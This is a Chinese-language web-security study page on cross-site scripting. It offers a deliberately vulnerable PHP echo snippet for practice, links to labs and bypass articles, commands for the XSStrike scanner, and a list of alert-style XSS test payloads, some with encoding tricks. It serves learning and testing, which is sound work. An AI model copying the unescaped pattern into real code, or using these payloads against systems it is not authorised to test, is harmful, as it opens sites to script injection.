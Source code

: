     **简单版**
    ```php
    <?php
    $input=$_GET["parm"];
    echo "<div>".$input."</div>";
    ?>
    ```
    然后访问 xxx.xxx.xxx.xxx/1.php?parm= 加上你的xss代码

    **进阶版**
    - [xss练习源码](./文件/xss练习源码.zip)
    - [XSS通关小游戏以及我的挑战思路分享](https://bbs.ichunqiu.com/thread-15664-1-1.html)

    **在线版**
    - http://demo.testfire.net/
    - https://juice-shop.herokuapp.com/#/search

**文章**
- [XSS插入绕过一些方式总结](https://blog.csdn.net/qq_29277155/article/details/51320064)
- [XSS总结](https://xz.aliyun.com/t/4067)
- [WAF的XSS绕过姿势](https://www.freebuf.com/articles/web/81959.html)
- [他山之石 | 对 XSS 的一次深入分析认识](https://www.freebuf.com/articles/web/195507.html)
- [minimaxir/big-list-of-naughty-strings](https://github.com/minimaxir/big-list-of-naughty-strings)
- [深入理解浏览器解析机制和XSS向量编码](http://bobao.360.cn/learning/detail/292.html)
- [csp与bypass的探讨(译文)](http://wutongyu.info/csp-2015/)

**工具**
- [s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)
    - 依赖
        ```bash
        pip3 install -r requirements.txt

        wget https://github.com/mozilla/geckodriver/releases/download/v0.24.0/geckodriver-v0.24.0-linux64.tar.gz
        mkdir /usr/local/temp
        mv geckodriver /usr/local/temp
        PATH=$PATH:/usr/local/temp/
        ```

    - **[Usage](https://github.com/s0md3v/XSStrike/wiki/Usage#scan-a-single-url)**
        ```bash
        python3 xsstrike.py -u "http://example.com/search.php?q=query"
        python3 xsstrike.py -u "http://example.com/search.php?q=query" --fuzzer
        python3 xsstrike.py -u "http://example.com/search.php?q=query" --crawl
        ```

**payload**
- [ismailtasdelen/xss-payload-list](https://github.com/ismailtasdelen/xss-payload-list)

**一些示例**
```html
<script>alert(123)</script>
<script>prompt(1);</script>
<script>confirm(1);</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<script>+alert(1)</script>
<script>setTimeout(alert(1),0)</script>
<script src=data:text/javascript,alert(1)></script>
<script>alert(String.fromCharCode(49,49))</script>
<<SCRIPT>alert("XSS");
//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
<svg><script>123<1>alert(123)</script>
"><script>alert(123)</script>
'><script>alert(123)</script>
><script>alert(123)</script>
</script><script>alert(123)</script>
```